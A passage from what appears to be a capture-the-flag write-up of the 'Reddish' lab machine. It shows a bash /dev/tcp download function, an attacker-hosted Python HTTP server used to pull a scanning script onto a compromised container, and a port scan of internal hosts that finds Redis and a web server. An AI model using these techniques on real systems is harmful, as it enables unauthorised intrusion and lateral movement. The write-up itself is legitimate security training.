 ```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```
I use the second option will be used since it is a more easy way to download binaries such as socat or chisel.

Start a python server on the attacker machine that will host the scripts and binaries.


```bash
python3 -m http.server 80
```

On the nodered container use the `__curl` function to download the hostscan.sh script.

```bash
root@nodered:/tmp/workspace_nodered_container## __curl http://10.10.14.26/hostscan.sh > hostscan.sh
```

![nodered hostscansh](/assets/img/htb/reddish/nodered_hostscansh.png)

The scan shows that in the network 172.19.0.0 exist other three hosts besides 172.19.0.4 which is nodered. Proceed with enumerating the open ports of each host.

> For this task I created a minimal network scanner written in bash, this tool will be used to further enumerate more hosts in the network. [netscan](https://github.com/xffsec/netscan)

Performing a port scan of the active hosts returns other 2 results, an http server on 172.19.0.2 and redis on 172.19.0.3

```bash
bash netscan -P -t 172.19.0.3 -R 1-4 -r 1-10000
```

![netscan hosts port](/assets/img/htb/reddish/netscan_hosts_ports.png)

A network map is created for ease of reference.

```java
[Attacker] 10.10.14.26

  [nodered] 172.18.0.2:1880 172.19.0.4:1880

    [host]        172.19.0.1

    [container_1] 172.19.0.2:80

    [container_2] 172.19.0.3:6379
```
